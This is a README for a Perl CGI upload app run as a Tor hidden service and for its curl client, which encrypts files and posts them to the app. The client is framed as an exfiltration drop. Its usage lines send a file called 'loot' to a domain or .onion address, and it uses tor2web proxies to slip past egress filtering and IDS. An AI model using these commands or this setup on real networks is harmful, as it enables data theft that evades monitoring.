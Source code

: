 # BLACK_HOLE

Is a perl cgi file upload web app that is built to function easily with 
curl and the use of html forms is not required or needed. It is made 
to be used as a TOR hidden service.

The difference of this cgi upload app from others is that 
it uses OpenSSL public key encryption for authentication. The 
purchase of a cert from a CA is not needed or recommened as those 
orginizations personal regard for you is dubious.

Since these certs are not used for establishing SSL sessions only for
file encryption. It is best in my opinion to create the keypair you need 
and only give out copies of the public key to the indivduals you 
personaly trust.

And by give I mean hand it to them, DONT email.

## Installing
The install process will get lighttpd through apt and configure it then 
place the cgi in the correct location.

You will also be prompted to input the authentication passphrase.

Run as root

```
root@null:~/black-hole# ./install-bh.sh
```
The private key is required to be in the directory /var/cp-data/auth/
for this cgi to function.


### Explanation

A breakdown of the cgi will follow but it still does not beat reading
the Perl cgi itself. Plus eventhough it's Perl I avoided using obscure 
code and kept it simple so that a sysadmin that doesn't program should 
be able to break it down after some reading.

To understand how the authentication is performed, I first have to point
out the folders in use by this cgi.

NOTE: These will be generated by the installer, you will be 
prompted for the passphrase.

The required folders are placed in /var/. 

```
         /var/cp-data/
                 └── auth/
                       ├── pphrase
                       └── private.pem
```

The owner for cp-data/ and it's subdirectories is "www-data".

cp-data/ is the main folder which will contain the uploaded data. The 
sub folder auth/ MUST contain the private key along with a passphrase
or a hash of a passphrase which is interpreted by the cgi as a string
to see if it matches with an authentication parameter posted to it.

keep this in mind.

The cgi has three parameters that need to be filled and each need to be 
processed successfully otherwise the cgi will exit. They are proccesed 
in a sequential manner.

NOTE: for those that do not wish to craft your own url requestes 
and wish to use a more automated method, see EVENT_HORIZON below.


## FIRST parameter
The first parameter is the plain-text or hashed passphrase that is 
encrypted by the corrisponding OpenSSL public key as any SMIME type with
public key encryption.

### OpenSSL smime data, example:

```
MIME-Version: 1.0
Content-Disposition: attachment; filename="smime.p7m"
Content-Type: application/x-pkcs7-mime; smime-type=enveloped-data; name="smime.p7m"
Content-Transfer-Encoding: base64

MIIBxgYJKoZIhvcNAQcDoIIBtzCCAbMCAQAxggFuMIIBagIBADBSMEUxCzAJBgNV
BAYTAkFVMRMwEQYDVQQIDApTb21lLVN0YXRlMSEwHwYDVQQKDBhJbnRlcm5ldCBX
aWRnaXRzIFB0eSBMdGQCCQDtan1KLnkXHjANBgkqhkiG9w0BAQEFAASCAQAH6f3L
VkTcrGI+oEwIm17wVW1XQTyjd4kxnFTGbc29dPsnW+bymAkzc0Xq9y2hv/+Mdd/i
QHW8m9Sry9jYXLO5mKp2LAEy4q3x6hM5XomV8elgm7ZNriVdWAYztVQ01I+3RnOo
5vqSy3iCfJ4/ecs5/RyE+JLG7269389NTMDigQOY/XqtFOB8dbeQolTanJev6Nxt
cvwapfxFGIs85QIFlQp9c2VP6KCFMk7h4Hyv03pJgWSR2hg7CDjzOfdMsi1WQ92P
TEYIi9n26XXiCUTMLCY8RqJsWlFvhyhW8PXXQy2kC7fn/I+ukcf+qtieEzGVCIOS
gWHEt5k6uWpt43pNMDwGCSqGSIb3DQEHATAdBglghkgBZQMEASoEEPxDoqLGhINJ
ZhF1cyVM0XyAEBLJ3nT17dVtx/E+k3lEw/8=
```

For this parameter to be completed successfully the cgi would have to 
decrypt the SMIME data with the private key and extract the 
passphrase/hash and match this to the passphrase/hash in the 
cp-data/auth/ folder. 


## SECOND parameter
The second parameter contains a one time use random key that is 
encrypted in the same manner as the first parameter(SMIME/AES). This 
one time use passphrase will be used to encrypt/decrypt symmenticly 
the data that is to be uploaded.

For this parameter to be completed successfully the cgi would have to
be able to decrypt this SMIME data with the privated key. The decrypted
passphrase is stored in the same directory as the data that is uploaded,
both share the same time stamp.


## THIRD parameter 
The third parameter will contain the encryped data to be uploaded.

This cgi was made to function in a environment without SSL/TLS session
encryption.



# EVENT_HORIZON

A client for one that wishes to upload to BLACK_HOLE. It performs 
the neccesary encryption on the files to be uploaded, then uses curl along 
with OpenSSL and the public key to generate a url post request that 
contains the three required parameters.

The trick is that on top of directly uploading to the cgi over the normal 
Internet. It also has the option to use proxies that serve as hidden service 
gateways such as tor2web. The idea behind it is that the LAN this client may 
be connecting from may have egress filtering rules (IDS/IDPS) that may interfere 
with tor traffic. So this manages to still use tor by first connecting to one 
of these proxies using regular HTTPS that then forward it to your hidden service 
over tor. 

The temporary password for symmetric encryption is generated with 
/dev/urandom and piped into a variable.

```
 TPASS=$(< /dev/urandom tr -dc _A-Z-a-z-0-9 | head -c 30 | base64)
```

Options avaliable by event-horizon client.
```

options:
   -k   location of the public key in pem format for use in encryption
   -t   use tor2web to use exfil hosted on hidden service (yes/no)
   -a   trusted passphrase on the server hosting the cgi perl file
   -d   location of the data file you wish to upload
   -u   full url to the perl cgi upload app, if hidden service place .onion url

usage examples:

without tor:
./event-horizon.sh -k public.pem -a pphrase -t no -d loot -u some_domain.com

using tor tor2web proxies:
./event-horizon.sh -k public.pem -a pphrase -t yes -d loot -u xaede7oiftahtz.onion

```


xor-function @
nightowlconsulting.com
